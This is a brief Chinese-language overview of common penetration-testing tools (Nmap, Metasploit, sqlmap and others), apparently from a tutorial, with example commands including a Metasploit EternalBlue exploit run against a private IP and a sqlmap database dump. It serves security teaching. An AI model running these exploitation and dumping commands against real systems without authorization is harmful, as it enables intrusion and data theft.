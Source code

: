 ## 渗透测试常用工具

渗透测试人员使用各种工具来辅助完成测试工作。以下是一些常用的渗透测试工具：

### 1. 信息收集工具

- **Nmap**：网络扫描工具，用于发现网络中的主机和服务
  ```bash
  # 扫描单个IP
  nmap 192.168.1.1
  
  # 扫描IP范围
  nmap 192.168.1.0/24
  
  # 进行详细扫描
  nmap -A 192.168.1.1
  ```

- **Maltego**：信息收集和关联分析工具
- **theHarvester**：电子邮件、子域名和名称服务器收集工具
- **Recon-ng**：开源的Web侦察框架

### 2. 漏洞扫描工具

- **Nessus**：商业漏洞扫描工具，功能强大，更新及时
- **OpenVAS**：开源漏洞扫描器
- **Nexpose**：商业漏洞管理解决方案
- **OWASP ZAP**：开源Web应用程序安全扫描器

### 3. 漏洞利用工具

- **Metasploit**：开源的漏洞利用框架，包含大量的漏洞利用模块
  ```bash
  # 启动Metasploit
  msfconsole
  
  # 搜索漏洞利用模块
  search ms17_010
  
  # 使用漏洞利用模块
  use exploit/windows/smb/ms17_010_eternalblue
  
  # 设置目标
  set RHOSTS 192.168.1.100
  
  # 运行漏洞利用
  exploit
  ```

- **Burp Suite**：Web应用程序安全测试工具，包含代理、扫描器、入侵者等组件
- **sqlmap**：自动化SQL注入工具
  ```bash
  # 基本SQL注入测试
  sqlmap -u "http://example.com/vulnerable.php?id=1"
  
  # 指定数据库类型
  sqlmap -u "http://example.com/vulnerable.php?id=1" --dbms=mysql
  
  # 转储数据库内容
  sqlmap -u "http://example.com/vulnerable.php?id=1" --dump
  ```
